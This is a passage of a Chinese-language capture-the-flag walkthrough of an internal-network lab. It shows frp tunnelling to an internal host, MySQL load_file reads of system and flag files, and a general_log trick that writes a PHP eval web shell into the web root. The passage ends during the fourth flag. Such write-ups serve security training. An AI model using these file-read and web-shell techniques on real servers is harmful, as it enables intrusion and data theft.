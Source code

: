 ![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217165750-p39hwpr.png?imageSlim)​

exit回到172.22.13.14获得flag02

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217165832-ho378uv.png?imageSlim)​

## flag03

```bash
关卡剧情：请尝试获取内网中运行 OA 系统的服务器权限，并获取该服务器上的机密文件。
```

在172.22.13.14后台起一下fprc

```bash
./frpc -c ./frpc.ini &
```

vps起frps

```bash
./frps -c ./frps.ini
```

配好proxifier规则

在本机用navicat连一下数据库

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217171254-ybmfi6p.png?imageSlim)​

测试一下，发现可以读文件

```bash
select load_file('C://windows//win.ini');
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217171707-84qzyyn.png?imageSlim)​

直接读flag

```bash
select load_file('C:\\users\\administrator\\flag\\flag03.txt');
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217171613-pj75izc.png?imageSlim)​

## flag04

> 关卡剧情：由于域管理员错误的配置，导致域内某个用户拥有危险的 DACL。你的任务是找到该用户，并评估这个配置错误所带来的潜在危害。

mysql的机器也是dc机，尝试把文件导入到web路径下getshell

```bash
mysql> SET GLOBAL general_log='on';

mysql> SET GLOBAL general_log_file='C:\\phpstudy_pro\\WWW\\1.php';

mysql> SELECT '<?php @eval($_POST[1]);?>';
```
